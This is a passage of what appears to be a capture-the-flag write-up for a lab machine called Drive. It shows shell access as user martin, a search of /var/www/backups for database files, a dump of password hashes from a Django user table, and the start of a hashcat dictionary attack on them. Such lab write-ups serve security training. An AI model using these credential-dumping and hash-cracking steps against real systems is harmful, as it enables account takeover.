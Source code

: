 ```
 Processes:             229  
 Users logged in:       0  
 IPv4 address for eth0: 10.10.11.235  
 IPv6 address for eth0: dead:beef::250:56ff:feb9:a648  
  
  
Expanded Security Maintenance for Applications is not enabled.  
  
0 updates can be applied immediately.  
  
Enable ESM Apps to receive additional future security updates.  
See https://ubuntu.com/esm or run: sudo pro status  
  
  
The list of available updates is more than a week old.  
To check for new updates run: sudo apt update  
  
martin@drive:~$ ls  
snap  
martin@drive:~$
```

In the web directory, there are four backup files as well as an active SQLite3 database.  Since these are almost certainly linked to the DoodleGrive app, we'll be checking these out.
```
martin@drive:/var/www/backups$ ls -la  
total 3740  
drwxr-xr-x 2 www-data www-data    4096 Sep  1 18:23 .  
drwxr-xr-x 5 root     root        4096 Sep 15 13:34 ..  
-rw-r--r-- 1 www-data www-data   13018 Sep  1 20:00 1_Dec_db_backup.sqlite3.7z  
-rw-r--r-- 1 www-data www-data   12226 Sep  1 20:00 1_Nov_db_backup.sqlite3.7z  
-rw-r--r-- 1 www-data www-data   12722 Sep  1 20:00 1_Oct_db_backup.sqlite3.7z  
-rw-r--r-- 1 www-data www-data   12770 Sep  1 20:00 1_Sep_db_backup.sqlite3.7z  
-rwxr-xr-x 1 root     root     3760128 Dec 26  2022 db.sqlite3
```

One of the tables in the SQLite3 DB is the `accounts_customuser` one, which contains usernames and password hashes. Exactly what we want to see!
```
sqlite> select * from accounts_customuser;
21|sha1$W5IGzMqPgAUGMKXwKRmi08$030814d90a6a50ac29bb48e0954a89132302483a|2022-12-26 05:48:27.497873|0|jamesMason|||jamesMason@drive.htb|0|1|2022-12-23 12:33:04
22|sha1$E9cadw34Gx4E59Qt18NLXR$60919b923803c52057c0cdd1d58f0409e7212e9f|2022-12-24 12:55:10|0|martinCruz|||martin@drive.htb|0|1|2022-12-23 12:35:02
23|sha1$kyvDtANaFByRUMNSXhjvMc$9e77fb56c31e7ff032f8deb1f0b5e8f42e9e3004|2022-12-24 13:17:45|0|tomHands|||tom@drive.htb|0|1|2022-12-23 12:37:45
24|sha1$ALgmoJHkrqcEDinLzpILpD$4b835a084a7c65f5fe966d522c0efcdd1d6f879f|2022-12-24 16:51:53|0|crisDisel|||cris@drive.htb|0|1|2022-12-23 12:39:15
30|sha1$jzpj8fqBgy66yby2vX5XPa$52f17d6118fce501e3b60de360d4c311337836a3|2022-12-26 05:43:40.388717|1|admin|||admin@drive.htb|1|1|2022-12-26 05:30:58.003372
```

To attempt to crack these hashes, [hashcat](https://hashcat.net/wiki/doku.php?id=example_hashes) has mode 124 for Django SHA1 hashes in this format, so it's what we'll use. Only one of the hashes cracks with the available of the database:
```
thedoug@TRYHARDER:/dev/shm$ hashcat -a 0 -m 124 hashes ~/SecLists/Passwords/Leaked-Databases/rockyou.txt -O  
hashcat (v6.1.1) starting...  
  
OpenCL API (OpenCL 1.2 pocl 1.6, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]  
=============================================================================================================================  
```